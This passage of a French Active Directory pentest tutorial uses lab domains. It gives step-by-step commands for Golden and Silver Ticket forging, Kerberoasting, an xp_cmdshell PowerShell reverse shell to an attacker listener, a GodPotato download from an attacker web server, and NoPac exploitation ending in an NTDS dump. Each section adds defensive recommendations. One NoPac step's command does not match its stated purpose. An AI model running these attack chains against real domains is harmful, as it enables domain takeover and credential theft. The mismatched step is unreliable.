Le TGT forgé peut être ensuite utilisé pour demander des tickets de service (ST) et accéder aux ressources du domaine.  

### Méthodologie

Afin de forger un Golden Ticket, vous aurez besoin des informations suivantes:

1/ La clé kerberos du compte krbtgt (RC4, AES128, AES256)  

Cela a été obtenue lors de l'attaque DCSync.  

2/ Le SID du domaine  

```bash
nxc ldap 192.168.24.136 -u 'pentester' -p 'ADPentest123!' --get-sid
```



3/ Le nom du domaine et le nom de l'utilisateur pour lequel le ticket sera généré.

Une fois ces informations obtenues, il est possible de forger un TGT à l'aide d'outils tels que ticketer de la suite Impacket.  

```bash
ticketer.py -domain-sid 'S-1-5-21-881624166-2366537516-2159147312' -aesKey 'ea5c26d78cc428c8049e424aab26be11c62610897b796af76ebec24f5bc7ef52' -dc-ip '192.168.24.136' -domain 'evilcorp.local' Administrator
```



```bash
KRB5CCNAME='Administrator.ccache' nxc smb 192.168.24.136 --use-kcache
```



### Recommandations

- Effectuez tous les 06 mois une réinitialisation du mot de passe du compte krbtgt. Vous pouvez utiliser la [documentation suivante](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password) pour effectuer cette opération.
- Créez des alertes pour les TGTs présentant des caractéristiques anormales (par exemple une durée de validité s'étendant sur plusieurs années).
- Utilisez la cmdlet suivante pour déterminer la date de dernière réinitialisation du mot de passe du compte krbtgt:

```powershell
Get-ADUser -Identity krbtgt -Properties PasswordLastSet | Select-Object SamAccountName, PasswordLastSet
```

### Ressources

- [Golden Ticket Attacks on Active Directory](https://www.semperis.com/blog/golden-ticket-attacks-active-directory/)
- [Forged tickets - THR](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/#golden-ticket)

## Résumé



# Scénario 6

Ce scénario a pour but de démontrer comment exploiter un serveur MSSQL afin de devenir administrateur du domaine.  

## Kerberoasting

À partir d'un TGT, il est possible de demander un ou plusieurs tickets de service (ST) au centre de distribution des clés (KDC).  

Les tickets de service sont protégés par un secret dérivé du mot de passe du compte de service.  

Les comptes de service sont généralement des comptes machines qui possèdent des mots de passe aléatoires et générés automatiquement par le contrôleur de domaine.  

Toutefois, il est possible d'utiliser un compte utilisateur pour exécuter un service. Afin de configurer cela, les administrateurs ajoutent généralement un SPN (Service Principal Name) au compte de l'utilisateur en question.  

Un SPN est un identifiant unique (ex: cifs/dc01) qui permet d'identifier un compte de service dans le domaine.  

Comme vous l'aurez deviné, le problème ici c'est que les services portés par des comptes utilisateur, possèdent un mot de passe défini par l'administrateur du domaine. Ces mots de passes sont donc potentiellement craquables si les bonnes pratiques liées aux mot de passes ne sont pas respectées. C'est là qu'intervient le Kerberoasting.  

Le Kerberoasting ([T1558.003](https://attack.mitre.org/techniques/T1558/003/)) est une technique qui consiste à demander un ticket de service pour les comptes utilisateurs possédant un SPN, puis à tenter de retrouver le mot de passe de ces comptes, à partir d'une attaque hors ligne sur les informations contenues dans le ticket.  

Dans certains environnements mal configurés, ces comptes peuvent disposer de privilèges élevés tels que "Domain Admins". La compromission de tels comptes peut alors permettre à un attaquant de compromettre l'ensemble du domaine.  

### Méthodologie

Afin de réaliser le Kerberoasting, vous pouvez procéder comme suit:

1/ Demander un ticket de service pour les comptes utilisateurs possédant un SPN  

```bash
GetUserSPNs.py -request -outputfile Kerberoastables.txt -dc-host "breachdc.breach.vl" "breach.vl"/"julia.wong":"Computer1"
```




Vous pouvez utiliser `NetExec` également:  

```bash
nxc ldap breachdc.breach.vl -d 'breach.vl' -u 'julia.wong' -p 'Computer1' --kerberoast kerberoastables.txt
```



2/ Tenter de craquer en mode hors-ligne les mots de passe des comptes utilisateurs possédant un SPN, à partir des tickets de service obtenus précédemment.  

```bash
hashcat -m 13100 -a 0 Kerberoastables.txt /opt/lists/rockyou.txt
```





### Recommandations

- Evitez d'utiliser des comptes utilisateurs pour exécuter un service. À defaut de cela, choisir des mots de passe robustes (+32 caractères) pour ces comptes.
- Préférez l'utilisation des comptes de service administré de groupe (gMSA) dont le mot de passe (120 caractères) est généré par le contrôleur de domaine et renouvelé tous les 30 jours par défaut
- Activez uniquement les chiffrements Kerberos par AES (128 ou 256 bits) pour les comptes utilisateurs possédant un SPN, afin de rendre plus difficile les attaques hors ligne.
- Procédez à une revue régulière des comptes utilisateurs possédant un SPN.
- Limitez les droits et privilèges des comptes de service au strict besoin opérationnel.  

Afin d'énumérer les comptes kerberoastables (comptes utilisateurs ayant un SPN déclaré), vous pouvez utiliser la cmdlet suivante:  

```powershell
Get-ADUser -filter * -Properties * | Where {$_.ServicePrincipalName -ne $null -and $_.Name -ne "krbtgt"} | Select Name , ServicePrincipalName
```

### Ressources

- [Comprehensive Guide to Kerberoasting](https://www.vaadata.com/en/blog/what-is-kerberoasting-attack-and-security-tips-explained/)
- [Kerberoasting - THR](https://www.thehacker.recipes/ad/movement/kerberos/roasting/kerberoast)
- [Guide ANSSI - Active Directory](https://messervices.cyber.gouv.fr/documents-guides/anssi-guide-admin_securisee_si_ad_v1-0%20(3).pdf)
- [Detecting and mitigating Active Directory compromises](https://www.cyber.gov.au/sites/default/files/2026-09/Detecting%20and%20mitigating%20Active%20Directory%20compromises%20%28September%202026%29.pdf) 

## KRB_AP_ERR_SKEW

**KRB_AP_ERR_SKEW** est une des erreurs assez courante rencontrée lors d'une authentification Kerberos.  



Cela intervient lorsque le centre de distribution de clés (KDC) et l'utilisateur (client) utilisent des plages horaires différentes.  

Par défaut, la différence de temps entre le KDC et votre machine ne doit pas excéder **5 minutes**. Au delà de cette limite, l'erreur `KRB_AP_ERR_SKEW` est retournée.  

Afin de corriger cette erreur, vous devrez **synchroniser l'horloge de votre système avec celle du KDC**. Pour cela, vous pouvez par exemple utiliser les commandes `rdate`, `ntpdate` ou `faketime`.  

### Méthodologie

Afin de corriger l'erreur `KRB_AP_ERR_SKEW` avec [rdate](https://command-not-found.com/rdate), vous pouvez utiliser la commande suivante:  

```bash
timedatectl set-ntp off
rdate -n 192.168.24.136
```



> Remplacez l'adresse IP par celle de votre contrôleur de domaine.

Une autre solution consiste à utiliser [ntpdate](https://command-not-found.com/ntpdate):  

```bash
timedatectl set-ntp off
ntpdate 192.168.24.136
```



Une dernière solution est d'utiliser [faketime](https://command-not-found.com/faketime):  

```bash
faketime "$(rdate -n 192.168.24.136 -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
```



## Silver Ticket

Après avoir compromis le compte de service `svc_mssql` via le Kerberoasting, on peut constater qu'il n'a pas de privilèges administrateur sur la base de données MSSQL.  

En revanche, il est possible de forger un ticket de service (ST) à partir de son mot de passe. Dans le jargon, ce ticket de service est appelé silver ticket.

Le **silver ticket** ([T1558.002](https://attack.mitre.org/techniques/T1558/002/)) est un ticket de service forgé par un attaquant à partir du mot de passe d'un compte de service.

Un vecteur d'attaque intéressant serait de forger un ticket de service pour l'administrateur du domaine. Une fois le ticket forgé, on pourra l'utiliser pour accéder à la base de donnée MSSQL en tant que l'administrateur.

Afin de réaliser cette attaque, il faudra modifier le PAC contenu dans le ticket de service. Cela peut être automatisé en utilisant le script [ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py) de la suite Impacket.  

Le **PAC** (Privileged Attribute Certificate) est une structure de données qui contient par exemple des informations sur l'utilisateur qui s'authentifie (SID) ainsi que les groupes auxquels il appartient.  

### Méthodologie

Pour forger un silver ticket, vous aurez besoin des informations suivantes:

1/ Le hash NT ou la clé Kerberos du compte de service  

```bash
python -c "import hashlib; print(hashlib.new('md4', 'Trustno1'.encode('utf-16le')).hexdigest())"
```



Vous pouvez également utiliser `pypykatz`:  

```bash
pypykatz crypto nt 'Trustno1'
```



2/ Le SID du domaine  

```bash
nxc ldap breachdc.breach.vl -d 'breach.vl' -u 'svc_mssql' -p 'Trustno1' --get-sid
```



3/ Le SPN du compte de service  

```bash
bloodyAD -d 'breach.vl' --dc-ip '10.129.9.7' -u 'svc_mssql' -p 'Trustno1' get object --attr 'servicePrincipalName' 'svc_mssql'
```



4/ Le nom de l'utilisateur pour lequel le ticket sera créé  

Une fois ces informations obtenues, vous pouvez les fournir en arguments à `ticketer` qui va se charger de générer un silver ticket pour l'utilisateur de votre choix.

```bash
ticketer.py -nthash '69596c7aa1e8daee17f8e78870e25a5c' -spn 'MSSQLSvc/breachdc.breach.vl:1433' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain 'breach.vl' administrator
````



```bash
KRB5CCNAME='administrator.ccache' nxc mssql 'breachdc.breach.vl' -d 'breach.vl' --use-kcache -M mssql_priv
```



> Le SPN aura un impact sur les services que nous pourrons accéder à partir du ticket généré. Dans notre cas, on ne pourra accéder qu'à la base de données MSSQL.

Par ailleurs, `ticketer` va modifier le PAC du ticket de service en déclarant par exemple votre utilisateur comme membre des groupes `Domain Admins` et `Enterprise Admins`. Cela peut être vérifié en consultant le contenu du ticket:  

```bash
describeTicket.py 'administrator.ccache' --rc4 '69596c7aa1e8daee17f8e78870e25a5c'
```





### Recommandations

- Préférez l'utilisation des comptes de service administré de groupe (gMSA) dont le mot de passe (120 caractères) est généré par le contrôleur de domaine et renouvelé tous les 30 jours par défaut.
- Limitez les droits et privilèges des comptes de service au strict besoin opérationnel.

### Ressources

- [Silver & Golden Tickets](https://en.hackndo.com/kerberos-silver-golden-tickets/#silver-ticket)
- [Silver tickets - THR](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/silver)

## Procédures Stockées de MSSQL

Nous allons utiliser le silver ticket que nous avons précédemment obtenu afin de nous authentifier à la base de données MSSQL en tant qu'administrateur du domaine.  

```bash
KRB5CCNAME='administrator.ccache' mssqlclient.py -k -no-pass -windows-auth 'breachdc.breach.vl'
```



Une des fonctionnalités intéressantes des bases de données MSSQL est [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17). Cette fonctionnalité permet d'exécuter des commandes système à partir de la base de données. Par défaut, elle est désactivée.  

Cependant, il est possible de l'activer vu que nous avons des privilèges administrateur sur la base de données. Pour réaliser cela, il suffit d'utiliser simplement la commande **enable_xp_cmdshell** du script [mssqlclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) de la suite Impacket. Une fois la fonctionnalité activée, vous pourrez exécuter des commandes à partir de la base de données.  

### Méthodologie

Exécutons la commande `enable_xp_cmdshell` afin d'activer la fonctionnalité `xp_cmdshell`:  

```bash
enable_xp_cmdshell
```



Dans notre scénario, nous exploiterons cette fonctionnalité pour exécuter un reverse shell, afin d'obtenir un accès à distance à la machine cible.   

```bash
rlwrap nc -nlvp 8000
```



```bash
shellerator --type 'powershell' --lhost '10.10.15.210' --lport '8000'
```



```powershell
xp_cmdshell powershell -e <your_base64_encoded_powershell_reverse_shell>
```





Une autre fonctionnalité intéressante mais que je n'aborderai pas ici est [xp_dirtree](https://www.nullbyte.nl/blog/how-hackers-abuse-undocumented-mssql-features-to-take-over-your-domain). Elle permet de lister des fichiers et sous-répertoires d'un répertoire, situé localement sur une machine ou sur une machine distante. D'un point de vue offensif, elle est exploitée par les attaquants pour déclencher une authentification NTLM vers leur machine qu'ils peuvent ensuite relayer vers d'autres machines.  

### Recommandations

- Limitez les connexions sortantes depuis les systèmes sensibles. N'exposez pas une base de données sur Internet si cela n'est pas nécessaire. Cette mesure de sécurité permet de réduire votre surface d'attaque.
- Appliquez les recommandations listées pour le silver ticket.

### Ressources

- [xp_cmdshell (Transact-SQL)](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17)
- [How hackers abuse undocumented MSSQL features to take over your domain](https://www.nullbyte.nl/blog/how-hackers-abuse-undocumented-mssql-features-to-take-over-your-domain)
- [Where There Is MSSQL, There Is A Way](https://labs.reversec.com/posts/2026/05/where-there-is-mssql-there-is-a-way)
- [Relaying NTLM to MSSQL](https://blog.compass-security.com/2023/10/relaying-ntlm-to-mssql/)
- [Procédure Stockée 101](https://sql.sh/cours/procedure-stockee)

### Exploitation du Privilège SeImpersonate

Maintenant que nous avons obtenu un accès initial au contrôleur de domaine à travers l'exploitation de la fonctionnalité `xp_cmdshell`, nous allons tenter d'élever nos privilèges.  

Pour cela, nous pouvons commencer par énumérer les privilèges et groupes d'appartenance de l'utilisateur compromis (svc_mssql).  

Lors de l'énumération des privilèges, vous pouvez constater que le compte de service svc_mssql possède le privilège SeImpersonate activé.  

**SeImpersonate** est un privilège qui permet à un utilisateur d'usurper les privilèges d'un autre utilisateur pour réaliser des actions en son nom.

C'est un privilège qui est généralement activé pour les comptes de service tels que SQL ou encore IIS. Cela permet d'éviter que ces services n’utilisent leurs propres privilèges pour exécuter les tâches demandées par les utilisateurs.  

Dans un contexte offensif, ce privilège peut nous permettre d'usurper l'identité de NT Authority\System (utilisateur le plus privilégié de Windows) afin d'exécuter des actions privilégiés telles que l'extraction des secrets contenus dans la base de données NTDS.dit.  

### Méthodologie

Plusieurs outils tels que [GodPotato](https://github.com/BeichenDream/GodPotato), [JuicyPotato](https://github.com/ohpe/juicy-potato), [SweetPotato](https://github.com/CCob/SweetPotato), [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) permettent de réaliser cette attaque.  

Personnellement, je préfère GodPotato donc c'est l'outil que je vais utiliser pour réaliser l'attaque:  

```bash
python -m http.server 8888
```



```powershell
iwr http://10.10.15.210:8888/GodPotato-NET4.exe -o gp.exe
```



```powershell
.\gp.exe -cmd "whoami"
```




### Recommandations

- Limitez les droits et privilèges des comptes de service au strict besoin opérationnel.

### Ressources

- [Potatoes - Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)
- [Priv2Admin](https://github.com/gtworek/Priv2Admin)
- [SeImpersonate Privilege - Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege)

## Résumé



## NoPac

**NoPac** aussi connue sous le nom de **sAMAccountName Spoofing** est la combinaison de deux vulnérabilités (CVE-2021-42278, CVE-2021-42287) permettant à un utilisateur standard d'élever des privilèges dans le domaine.  

La [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) est une vulnérabilité permettant à un attaquant **authentifié** de manipuler le nom (sAMAccountName) d'un compte machine afin d'usurper l'identité du contrôleur de domaine.  
Les noms de comptes machines se terminent par le caractère "**$**". Cependant, cette vulnérabilité découle du fait que le contrôleur de domaine ne vérifiait pas correctement que les noms des comptes machines se terminaient par "$".  

Quant à la [CVE-2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), c'est une vulnérabilité affectant le PAC (Privilege Access Control). Le PAC contient des informations telles que le nom d'un utilisateur ainsi que les groupes auxquels il appartient.  

Les deux vulnérabilités combinées permettent à un attaquant authentifié d'élever ses privilèges.  

### Méthodologie

Afin d'exploiter cette faille, vous aurez besoin d'avoir un accès initial au domaine ainsi que de pouvoir créer un compte machine. Par défaut, tout utilisateur du domaine à la possibilité de créer jusqu'à 10 comptes machines dans un domaine. Pour vérifier cela, vous pouvez utiliser le module `MAQ` de NetExec.   

```bash
nxc ldap 172.16.5.5 -u 'forend' -p 'Klmcargo2' -M maq
```



> MAQ (Machine Account Quota) qui est un attribut qui stocke le nombre de machines que l'on peut créer dans un domaine.

Comme vous pouvez le voir, la configuration par défaut n'a pas été modifiée.  

Une fois les conditions satisfaites, vous pouvez réaliser l'attaque en suivant les instructions suivantes:  

1/ Créer un compte machine

```bash
impacket-addcomputer -computer-name 'pwnme$' -computer-pass 'pwnme' -dc-ip 172.16.5.5 'inlanefreight.local/forend:Klmcargo2'
```





> Par défaut, les comptes machines ont un SPN.

Cependant, ce SPN doit être supprimé afin de continuer l'attaque.  

2/ Supprimer le SPN du compte machine créé à l'étape 1

```bash
bloodyAD -H 172.16.5.5 -d inlanefreight.local -u 'forend' -p 'Klmcargo2' get object --attr 'servicePrincipalName' 'pwnme$'
```



3/ Renommons la machine `pwnme$` en utilisant le nom du contrôleur de domaine sans le signe **$** à la fin  

```bash
python rename-machine.py -current-name 'pwnme$' -new-name 'academy-ea-dc01' -dc-ip 172.16.5.5 'inlanefreight.local/forend':'Klmcargo2'
```



> Le nom d'hôte du contrôleur de domaine est: academy-ea-dc01

Comme vous pouvez le voir, notre compte machine a bien été renommé:  



4/ Demandons un TGT pour notre machine academy-ea-dc01  

```bash
impacket-getTGT -dc-ip '172.16.5.5' 'inlanefreight.local/academy-ea-dc01':'pwnme'
```



```bash
KRB5CCNAME=academy-ea-dc01.ccache nxc smb academy-ea-dc01 --use-kcache
```



5/ Renommons de nouveau le nom de notre machine à son ancien nom `pwnme$`  

```bash
renameMachine.py -current-name 'academy-ea-dc01' -new-name 'pwnme$' -dc-ip 172.16.5.5 'inlanefreight.local/forend':'Klmcargo2'
```





6/ Demandons un ticket de service en utilisant l'extension S4U2self  

```bash
KRB5CCNAME=academy-ea-dc01.ccache impacket-getST -self -impersonate 'Administrator' -altservice 'cifs/academy-ea-dc01.inlanefreight.local' -k -no-pass -dc-ip 172.16.5.5 'inlanefreight.local'/'academy-ea-dc01'
```



Nous pouvons vérifier le contenu du ticket obtenu en utilisant le script describeTicker:  

```bash
impacket-describeTicket Administrator@cifs_academy-ea-dc01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache
```



7/ Finalement, nous pouvons réaliser un Pass the Ticket pour compromettre le domaine  

```bash
KRB5CCNAME=Administrator@cifs_academy-ea-dc01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache nxc smb academy-ea-dc01 --use-kcache --ntds
```





### Recommandations

- [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
- [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
- [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
- [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
- [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
- [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)

### Ressources

- [sAMAccountName spoofing - THR](https://www.thehacker.recipes/ad/movement/kerberos/principal-confusion/samaccountname-spoofing)
- [NoPAC / samAccountName Spoofing - InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/NoPAC/)

# Ressources Supplémentaires

Voci quelques ressources utiles pour approfondir vos connaissances sur la sécurité d'Active Directory:  
- [Active Directory Mindmap v2025.03](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg)
- [Active Directory Attack Architecture Map v2.0](https://kypvas.github.io/ad_attack_architecture/)
- [The Hacker Recipes](https://www.thehacker.recipes/)
- [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings)
- [Active Directory & Azure AD/Entra ID Security](https://adsecurity.org/)
- [NetExec Wiki](https://www.netexec.wiki/)
- [BloodyAD Wiki](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide)

Concernant les guides de sécurité, vous pouvez utiliser ceux-ci:  
- [RECOMMANDATIONS RELATIVES À L'ADMINISTRATION SÉCURISÉE DES SYSTÈMES D'INFORMATION REPOSANT SUR MICROSOFT ACTIVE DIRECTORY - ANSSI](https://messervices.cyber.gouv.fr/documents-guides/anssi-guide-admin_securisee_si_ad_v1-0%20(3).pdf)
- [Detecting and mitigating Active Directory compromises](https://www.cyber.gov.au/publication/detecting-and-mitigating-active-directory-compromises)
